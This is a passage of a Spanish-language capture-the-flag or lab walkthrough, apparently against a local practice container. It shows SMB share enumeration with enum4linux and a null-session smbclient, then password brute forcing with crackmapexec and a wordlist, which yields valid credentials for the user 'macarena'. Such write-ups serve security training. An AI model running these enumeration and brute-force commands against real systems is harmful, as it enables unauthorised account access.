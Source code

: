 
Al abrir la nota descargada nos encontramos: 

```bash
└─# cat nota.txt        

I don't know what to do with Macarena, she's obsessed with donald.

```

Esto quiere decir que tenemos al menos 2 usuario : macarena y donald.

 Ahora procederemos a la explotación: 

Ahora enumeraremos los recursos del SMB para ver si macarena es un usuario

usaremos : Para continuar, se comprueba que el nombre “macarena” sea un potencial usuario válido del sistema a través del protocolo SMB. Para ello, se utiliza la herramienta “**enum4linux**” para extraer toda la información posible a través de dicho protocolo.
```bash
enum4linux -a  <ip victima>


 ==================================( Share Enumeration on 172.17.0.2 )==================================
                                                                                                                               
smbXcli_negprot_smb1_done: No compatible protocol selected by server.                                                          

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        macarena        Disk      
        IPC$            IPC       IPC Service (0845696b7b24 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available


```
- se observa que hay un recurso compartido llamado macarena.



También podemos usar: (listar los recursos compartidos mediante sesión nula, que en este caso funciona)
```bash 
smbclient -L \\172.17.0.2 -N
```


Ahora usaremos crackmapexec pero crearemos un archivo con los datos de macarena y donald para realizar ataques de fuerza bruta.
también podríamos usar : (netexec smb 172.17.0.2 -u macarena -p diccionario) en caso que fallara crackmapexec

```bash
crackmapexec smb 172.17.0.2 -u user.txt -p /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt


y tenemos credenciales validas: 
SMB         172.17.0.2      445    0845696B7B24     [+] 0845696B7B24\Macarena:donald 
```
